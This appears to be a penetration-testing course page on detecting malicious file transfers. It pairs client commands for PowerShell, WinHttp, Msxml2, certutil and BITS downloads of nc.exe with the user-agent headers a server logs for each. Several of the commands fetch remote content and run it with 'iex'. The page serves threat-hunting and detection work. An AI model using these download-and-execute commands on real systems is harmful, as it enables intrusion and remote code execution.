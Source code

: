 # Detection
- [Detection](#detection)
    - [**Invoke-WebRequest - Client**](#invoke-webrequest---client)
    - [**Invoke-WebRequest - Server**](#invoke-webrequest---server)
    - [**WinHttpRequest - Client**](#winhttprequest---client)
    - [**WinHttpRequest - Server**](#winhttprequest---server)
    - [**Msxml2 - Client**](#msxml2---client)
    - [**Msxml2 - Server**](#msxml2---server)
    - [**Certutil - Client**](#certutil---client)
    - [**Certutil - Server**](#certutil---server)
    - [**BITS - Client**](#bits---client)
    - [**BITS - Server**](#bits---server)

Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation. However, although the process of whitelisting all command lines in a particular environment is initially time-consuming, it is very robust and allows for quick detection and alerting on any unusual command lines.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the `HTTP` protocol. There is a need for interoperability amongst different web servers and web browser types to ensure that users have the same experience no matter their browser. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which `HTTP` client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an `HTTP` client and connecting to a web server via `HTTP` can have a user agent string (i.e., `cURL`, a custom `Python` script, or common tools such as `sqlmap`, or `Nmap`).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows Update, and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform malicious actions. This [website](http://useragentstring.com/index.php) is handy for identifying common user agent strings. A list of user agent strings is available [here](http://useragentstring.com/pages/useragentstring.php).

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common `HTTP` transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5).

### **Invoke-WebRequest - Client**

```powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

### **Invoke-WebRequest - Server**

```
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

### **WinHttpRequest - Client**

```powershell
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();PS C:\htb> iex $h.ResponseText
```

### **WinHttpRequest - Server**

```
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

### **Msxml2 - Client**

```powershell
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();PS C:\htb> iex $h.responseText
```

### **Msxml2 - Server**

```
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

### **Certutil - Client**

```
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

### **Certutil - Server**

```
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

### **BITS - Client**

```powershell
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;PS C:\htb> $r=gc $env:temp\t;PS C:\htb> rm $env:temp\t; PS C:\htb> iex $r
```

### **BITS - Server**

```
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.